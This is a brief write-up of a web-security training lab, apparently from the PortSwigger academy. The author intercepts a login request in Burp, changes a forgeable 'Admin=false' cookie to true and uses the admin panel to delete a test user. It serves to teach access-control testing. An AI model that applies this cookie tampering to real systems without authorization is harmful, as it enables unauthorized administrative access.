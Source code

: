 *This lab has an admin panel at /admin, which identifies administrators using a forgeable cookie. Solve the lab by accessing the admin panel and using it to delete the user carlos. You can log in to your own account using the following credentials: wiener:peter*

Logged into my account using the given credentials and intercepted the request using Burp Intercept: 

I noticed that the admin was set to `false` when logging in:
```Burp 
GET /login HTTP/2
Host: 0a27006203d85c9085d771be00a50013.web-security-academy.net
Cookie: session=nOKlBod9Hfa7eyUG35vKf63NGK9AR2SS; Admin=false
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a27006203d85c9085d771be00a50013.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
Hence, with each forwarding of request, i changed the admin value to `true`.
![user role controlled by request params](images/user%20role%20controlled%20by%20request%20params.png)
I was then able to delete the user *carlos*. 

Done!